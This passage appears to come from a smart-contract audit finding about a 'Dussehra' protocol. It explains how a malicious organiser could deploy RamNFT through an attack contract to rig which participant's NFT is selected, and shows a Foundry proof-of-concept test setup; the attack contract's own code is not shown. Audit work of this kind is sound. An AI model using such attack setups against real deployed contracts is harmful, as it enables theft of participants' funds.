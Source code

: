 ```js
```
- The malicious actor would use this contract to deploy `RamNFT` which would mean that this contract would function as `RamNFT::organiser`
- The malicious actor could enter the protocol and choose their `RamNFT` to become `ChoosingRam::selectedRam` (or collude with another participant)

##### Foundry Setup:
```js
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import {Test, console} from "forge-std/Test.sol";
import {Dussehra} from "../../src/Dussehra.sol";
import {ChoosingRam} from "../../src/ChoosingRam.sol";
import {RamNFT} from "../../src/RamNFT.sol";
import {OrganizerChoosingRam} from "../../src/attacks/OrganizerAttack.sol";

contract OrganizerAttackTest is Test {
    Dussehra public dussehra;
    RamNFT public ramNFT;
    ChoosingRam public choosingRam;
    OrganizerChoosingRam attack;

    address public organiser = makeAddr("organiser");

    uint256 public constant PICK_A_NUMBER = 100;
    address[] players = new address[](PICK_A_NUMBER);

    function setUp() public {
        // organizer deploys attack contract
        vm.startPrank(organiser);
        attack = new OrganizerChoosingRam();
        vm.stopPrank();

        // attack contract is used as "organizer"
        vm.startPrank(address(attack));
        ramNFT = new RamNFT();
        choosingRam = new ChoosingRam(address(ramNFT));
        dussehra = new Dussehra(1 ether, address(choosingRam), address(ramNFT));
        ramNFT.setChoosingRamContract(address(choosingRam));
        vm.stopPrank();  

        vm.deal(organiser, 10 ether);
        vm.startPrank(organiser);
        dussehra.enterPeopleWhoLikeRam{value: 1 ether}();
        vm.stopPrank();
    }

	// enter any number of participants
    modifier participants() {
        for (uint256 i =0; i< PICK_A_NUMBER; i++) {
            string memory stringNumber = vm.toString(i);
            players[i] = makeAddr(stringNumber);
            vm.deal(players[i], 1 ether);
            vm.startPrank(players[i]);
            dussehra.enterPeopleWhoLikeRam{value: 1 ether}();
            vm.stopPrank();
        }
        _;
    }
}
```
- Organizer deploys attack contract and uses the attack contract to deploy `RamNFT`
